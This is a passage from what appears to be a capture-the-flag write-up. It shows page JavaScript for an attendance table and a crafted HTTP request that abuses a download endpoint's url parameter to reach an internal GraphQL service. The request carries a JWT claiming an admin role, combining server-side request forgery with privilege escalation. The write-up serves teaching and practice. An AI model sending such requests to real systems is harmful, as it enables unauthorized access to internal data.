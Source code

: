 ```
                row.innerHTML = `
                    <td>${name}</td>
                    <td>${department}</td>
                    <td>${isPresent ? "Present" : "Absent"}</td>
                `;
                absenceContainer.appendChild(row);
            });
        } else {
            console.log('No user found with the provided username:', username);
        }
    })
    .catch(error => {
        console.error('Error fetching user data:', error);
    });
});

fetchAbsence()
```
- We know graphql supports get method too and we can try that to execute a query.

```
POST /download?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTcxNjIxMDUzMX0.2gwPTRqbPfj4Axbz2B3t4HNWHHdcgIXgTCcCyGaupW0 HTTP/1.1
Host: host:30586
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

url=http://0.0.0.0:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJyZXF1aXJlZFJvbGUiOiJhZG1pbiIsImlhdCI6MTcxNjIxMjM3M30.Cf49E4-_dHEoTBfMfplbKikF1ns-LDjWR5ftHG-9bfk%26query={getAllData{name%20department%20isPresent}}
```
<img src="https://github.com/blog-tamilctf/blog-tamilctf.github.io/blob/main/assets/img/graphql.png?raw=true" height=400px>
